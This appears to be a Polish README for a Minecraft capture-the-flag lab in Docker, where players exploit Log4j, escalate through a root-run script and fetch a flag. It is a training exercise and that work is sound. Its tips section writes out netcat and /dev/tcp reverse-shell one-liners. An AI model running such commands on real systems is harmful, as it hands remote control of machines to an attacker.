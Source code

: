 # minecraft-ctf

- próbujesz uruchomić sklauncher (jak nie masz javy, to se pobierz i zainstaluj)
- dockera też potrzebujesz (duh)
- odpalasz docer compose
- to ci uruchamia 3 kontenery
- dwa są tak jakby 'twoje', marshaller i httpcode. 'twoje' oznacza, że w topologii realnej są procesami, które ty kontrolujesz i stawiasz na swoim kompie, tutaj są w dockerach, żeby usprawnić całość,
- twoje zadanie jest następujące: zdobyć flagę wykorzystując podatność Log4j i kilka innych rzeczy :DD
- w tym celu:
  1. Uruchom Minecraft:
     1. Odpalasz SKLauncher, wybierasz tryb ofline,
     2. Klikasz + po prawej od "Installations Manager",
     3. Wybierasz release 1.8.8, SAVE, potem PLAY,
  2. Uruchom server mc (przy okazji inne kontenery):
     1. W repo komenda: `docker-compose up` albo `docker compose up`, uruchomi ci wszystkie kontenery, m.in. server minecrafta,
  3. 
  4. masz za zadanie wykorzystać podatność Log4j,
  5. kod hostowany na httpcode musisz przygotować i skompilować (kompilacja się dzieje podczas budowania kontenera),
  6. kod musi ci umożliwić kontrole na serverze
  7.  musisz znaleźć skrypt bashowy wykonywany z uprawnieniami roota, który możesz zmodyfikować,
  8.  zmodyfikować go tak, by ...
  9.  ...
  10. teraz masz dostęp do pliku z flagą,
  11. wyślij screen flagi na upela ;D
  12. udanej zabawy!



Przydatne rzeczy:

Reverse shell:
```sh
# https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# odpalasz nasluchiwanie tcp na porcie `5000` na swoim kompie
nc -l 5000

# na kompie ofiary na którym możesz uruchomić komendę robisz
# (musisz wejść w basha - czyli wpisz `bash` w terminal)
# (w zsh /dev/tcp/[ip]/[port] nie działa )
bash -i >& /dev/tcp/[ip mojego kompa]/5000 0>&1
# albo to (ale mi nie działało)
nc [ip mojego kompa] 5000 –e /bin/bash


# Możesz to przetestować robiąc w jednym terminalu
nc -l 5000
# a w drugim
bash -i >& /dev/tcp/127.0.0.1/5000 0>&1
```

Zbudowanie i uruchomienie kontenera:
```bash
# budowanie obrazu:
docker build . -t nazwa-obrazu
docker build . -t nazwa-obrazu:wersja

# uruchomienie obrazu (wtedy mamy uruchomiony kontener)
docker run -p 25565:25565 -ti 
```



Credits:
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://github.com/mbechler/marshalsec
https://lipanski.com/posts/smallest-docker-image-static-website




